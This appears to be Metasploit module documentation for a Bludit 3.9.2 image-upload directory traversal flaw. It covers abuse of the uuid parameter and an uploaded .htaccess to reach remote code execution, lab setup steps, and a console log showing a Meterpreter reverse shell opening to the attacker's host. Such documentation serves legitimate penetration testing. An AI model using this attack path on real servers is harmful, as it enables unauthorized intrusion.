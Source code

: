 # Bludit Directory Traversal Image File Upload Vulnerability

## Description

This module exploits a vulnerability in Bludit: A simple, fast, "secure", flat-file CMS. A vulnerability was found by [christasa](https://github.com/christasa) in the image uploading feature. A remote user could abuse the `uuid` parameter in the upload feature in order to save a malicious payload anywhere onto the server, and then use a custom `.htaccess` file to bypass the file extension check, and finally get remote code execution.

## Setup

1. Set up a Ubuntu box with Apache, PHP, and MySQL.
2. Download: https://www.bludit.com/releases/bludit-3-9-2.zip
3. Follow the installation guide [here](https://docs.bludit.com/en/getting-started/installation-guide). Make sure your Apache server sets `AllowOverride All` in /etc/apache2/apache2.conf.

## Scenarios

```
msf5 exploit(linux/http/bludit_upload_images_exec) > check
[*] 172.16.135.162:80 - The service is running, but could not be validated.
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as: admin
[*] Retrieving UUID...
[*] Uploading qGkVsmahdK.png...
[*] Uploading .htaccess...
[*] Executing qGkVsmahdK.png...
[*] Sending stage (38288 bytes) to 172.16.135.162
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.162:47086) at 2019-11-05 08:54:34 -0600
[+] Deleted .htaccess
```

